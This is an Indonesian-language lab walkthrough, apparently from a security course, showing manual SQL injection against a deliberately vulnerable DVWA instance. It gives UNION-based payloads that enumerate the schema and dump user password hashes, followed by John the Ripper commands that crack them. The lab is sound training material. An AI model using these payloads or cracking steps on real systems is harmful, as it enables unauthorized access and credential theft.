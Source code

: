 ### SQL Injection manual dan John the Ripper

* Apa itu SQL Injection?
  * SQL injection adalah teknik yang sering digunakan untuk menyerang aplikasi berbasis data.
  * Teknik ini dilakukan dengan menyisipkan sebagian statemen SQL ke dalam field dalam sebuat website untuk menjalankan perintah ke dalam database. SQL Injection adalah teknik yang memanfaatkan kelemahan keamanan dalam software aplikasi. 
* Apakah yang disebut dengan SQL Injection Harvesting?
  * SQL Injection Harvesting is where a malicious user supplies SQL statements to render sensitive data such as usernames, passwords, database tables, and more.
  * SQL Injection Harvesting adalah keadaan dimana pengguna memasukkan statement sql untuk mendapatkan data sensitif seperti username, password, tabel database, dan lainnya. 
* Lab Notes
  * Dalam lesson ini kita akan melakukan:
    1. Menyisipkan 'always true' sql statement ke dalam fiel sql injection user id dengan tingkat keamanan rendah.
    2. Mendapatkan username dan password dengan format raw-MD5 dari tabel users.
    3. Menggunakan John the Ripper untuk memecahkan password berformat raw-MD5.

| **Section 1: Login ke dalam DVWA** |
| :--- |


1. Buka browser

2. Login ke DVWA

   * Langkah**:**
     1. Buka firefox
     2. Masukkan ip metasploitable, contoh: [http://192.168.56.102/dvwa/login.php](http://192.168.56.102/dvwa/login.php).
     3. Login: admin
     4. Password: password
     5. Klik Login
   * ![](/assets/lesson6/1.PNG)

| **Section 2: Tetapkan Tingkat Keamanan** |
| :--- |


1. Tetapkan tingkat keamanan DVWA

   * Langkah**:**  
     1. Klik bagian DVWA Security di menu bagian kiri.  
     2. Pilih "low"  
     3. Klik Submit

   * ![](/assets/lesson6/2.PNG)

| **Section 3: Lakukan SQL Injection** |
| :--- |


1. Menu SQL Injection

   * **Langkah:**
     1. Pilih "SQL Injection" dari menu bagian kiri.
   * ![](/assets/lesson6/3.PNG)

2. Injection dasar

   * **Langkah:**
     1. Masukkan "1" ke dalam text box.
     2. Klik Submit.
     3. Akan terlihat informasi user dengan id 1.
   * ![](/assets/lesson6/4.PNG)

3. Always True Scenario

   * **Langkah:**
     1. Masukkan text di bawah ke User ID Textbox.
        * `%' or '0'='0`
     2. Klik Submit
   * ![](/assets/lesson6/5.PNG)

4. Menampilkan versi database

   * **Langkah:**
     1. Masukkan text di bawah ke dalam User ID Textbox.
        * `%' or 0=0 union select null, version() #`
     2. Klik Submit
   * ![](/assets/lesson6/6.PNG)

5. Menampilkan user dari database

   * Langkah**:**  
     1. Masukkan text di bawah ke dalam User ID Textbox.

     * `%' or 0=0 union select null, user() #`

   * ![](/assets/lesson6/7.PNG)

6. Menampilkan nama dari database

   * **Langkah:**
     1. Masukkan text di bawah ke dalam User ID Textbox.
        * `%' or 0=0 union select null, database() #`
   * ![](/assets/lesson6/8.PNG)

7. Menampilkan semua tabel dalam information\_schema

   * **Langkah:**
     1. Masukkan text di bawah ke dalam User ID Textbox.
        * `%' and 1=0 union select null, table_name from information_schema.tables #`
     2. Klik Submit
   * ![](/assets/lesson6/9.PNG)

8. Menampilkan semua tabel user di dalam information\_schema

   * **Langkah:**
     1. Masukkan text di bawah ke dalam User ID Textbox.
        * `%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#`
     2. Klik Submit
   * ![](/assets/lesson6/10.PNG)

9. Menampilkan semua field kolom dalam tabel user di information\_schema

   * **Langkah:**
     1. Masukkan text di bawah ke dalam User ID Textbox.
        * `%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #`
     2. Klik Submit
   * ![](/assets/lesson6/11.PNG)

10. Menampilkan semua kolom field pada tabel user di kolom information\_schema.

    * **Langkah:**
      1. Masukkan text di bawah ke dalam ID Textbox.
         * `%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`
      2. Klik Submit
    * ![](/assets/lesson6/11.PNG)

| **Section 4: Membuat file hash password** |
| :--- |


1. Membuat file hash password

   * **Langkah:**

     1. Highlight admin dan hash password

     2. Klik kanan

     3. Copy

   * ![](/assets/lesson6/12.PNG)

2. Simpan dalam file

   * **Langkah:**

     1. Simpan dalam file dengan format user:password\_hash  
            Contoh:  
                admin:5f4dcc3b5aa765d61d8327deb882cf99

     2. Simpan file

   * ![](/assets/lesson6/13.PNG)

| **Section 5: Menggunakan John the Ripper** |
| :--- |


1. Proof of Lab
   * **Langkah:**
     1. Buka terminal baru
     2. `cd /pentest/passwords/john`
     3. `./john --format=raw-MD5 dvwa_password.txt`
     4. Password akan di crack
     5. Untuk menampilkan password yang sudah di crack lakukan perintah seperti di bawah:
        ```
        john -show -format=raw-MD5 dvwa_password.txt
        ```
   * ![](/assets/lesson6/14.PNG)



